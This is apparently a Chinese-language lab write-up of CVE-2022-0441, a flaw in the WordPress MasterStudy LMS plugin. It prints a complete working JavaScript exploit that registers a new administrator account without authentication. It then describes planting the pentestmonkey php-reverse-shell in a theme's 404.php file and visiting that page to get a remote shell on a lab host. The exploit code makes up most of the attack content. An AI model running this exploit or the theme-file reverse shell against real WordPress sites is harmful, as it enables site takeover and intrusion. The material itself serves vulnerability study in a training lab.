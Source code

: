 > https://yunjing.ichunqiu.com/cve/detail/747
> #Unauthenticated-Account-Creation #Wordpress 

> Wordpress MasterStudy LMS插件任意用户添加
> https://nvd.nist.gov/vuln/detail/cve-2022-0441
> https://wpscan.com/vulnerability/173c2efe-ee9c-4539-852f-c242b4f728ed

正常访问：
![[Pasted image 20230117100229.png]]

直接使用网上的Javascript一键式exp [numanturle/Exploit.js](https://gist.github.com/numanturle/4762b497d3b56f1a399ea69aa02522a6)：
```javascript
function randomInt(min, max) {
  return Math.floor(Math.random() * (max - min + 1)) + min;
}

jQuery(document).ready(function($){
	username = "poctesting"+randomInt(1,1337);
	password_poc = "S3cr3t"+randomInt(1,1337);
	nonce = stm_lms_nonces.stm_lms_register

	post_data = {
		"user_login":username,
		"user_email":username+"@"+window.location.host,
		"user_password":password_poc,
		"user_password_re":password_poc,
		"become_instructor":"",
		"privacy_policy":true,
		"degree":"",
		"expertize":"",
		"auditory":"",
		"additional":[],
		"additional_instructors":[],
		"profile_default_fields_for_register":{
			"wp_capabilities":{
				"value":{
					"administrator":1
				}
			}
		}
	}
	
$.ajax({
    type: "POST",
    url: stm_lms_ajaxurl+"?action=stm_lms_register&nonce="+nonce,
    data: JSON.stringify(post_data),
    contentType: "application/json; charset=utf-8",
    dataType: "json",
    success: function(data){
		if(data.status == "success"){
			//window.location.href = "wp-admin/"
			console.log('%cRegistration Successful', 'color: black; background: yellow; font-size: 30px');
			console.log("Username : " + username);
			console.log("Password : " + password_poc);
		}
	},
    error: function(errMsg) {
        console.log(errMsg);
    }
});

});
```

直接在控制台运行脚本，得到Admin级别的新账户：
![[Pasted image 20230117103146.png]]

之后Cookie也自动更新了，可以直接进入仪表盘。进入仪表盘后，直接更改主题文件（推荐更改Wordpress自带主题）：
![[Pasted image 20230117104218.png]]

上文所使用的php-reverse-shell，参考自：
- [php-reverse-shell By pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
- [WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)
然后直接访问：
```url
http://eci-2ze14boo207kngnhg90n.cloudeci1.ichunqiu.com/wp-content/themes/twentyseventeen/404.php
```
提前设置好的侦听器就能收到回连的shell了：
![[Pasted image 20230117104452.png]]